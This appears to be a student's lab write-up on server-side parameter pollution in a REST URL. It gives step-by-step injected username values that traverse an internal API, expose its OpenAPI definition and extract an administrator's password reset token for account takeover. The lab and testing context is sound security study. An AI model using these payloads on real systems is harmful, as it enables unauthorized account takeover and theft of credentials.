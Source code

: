 ### Lab: Exploiting server-side parameter pollution in a REST URL
If there's a password reset endpoint:
POST /forgot-password req.body: csrf=ecIew6LswCIcl4AxMNjx8iWKDQr5wfX8&username=administrator
Try to change the last part of the body the following:
username=./administrator
username=administrator#
username=administrator?
And see the response

Change the value of the username parameter from ../administrator to ../%23. Notice the Invalid route response.

Incrementally add further ../ sequences until you reach ../../../../%23 Notice that this returns a Not found response. This indicates that you've navigated outside the API root.

At this level, add some common API definition filenames to the URL path. For example, submit the following:
username=../../../../openapi.json%23 

Notice that this returns an error message, which contains the following API endpoint for finding users:
/api/internal/v1/users/{username}/field/{field} 
Notice that this endpoint indicates that the URL path includes a parameter called field.

Later we try to send: username=administrator/field/username#
because we want to try to get username but we get a response:
{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}

__It we send req.body in the following way: username=administrator/field/username# we get an err but if we send it in this way: username=../../v1/users/administrator/field/username%23 we get back a username__

In static/passwordReset we saw passwordResetToken in the url so we try:
username=../../v1/users/administrator/field/passwordResetToken%23
And we get back password reset token. (look at static/passwordReset.js file and apply the reset token)


## Testing for server-side parameter pollution in structured data formats
An attacker may be able to manipulate parameters to exploit vulnerabilities in the server's processing of other structured data formats, such as a JSON or XML. To test for this, inject unexpected structured data into user inputs and see how the server responds. 

Consider an application that enables users to edit their profile, then applies their changes with a request to a server-side API. When you edit your name, your browser makes the following request:
```
POST /myaccount
name=peter
```

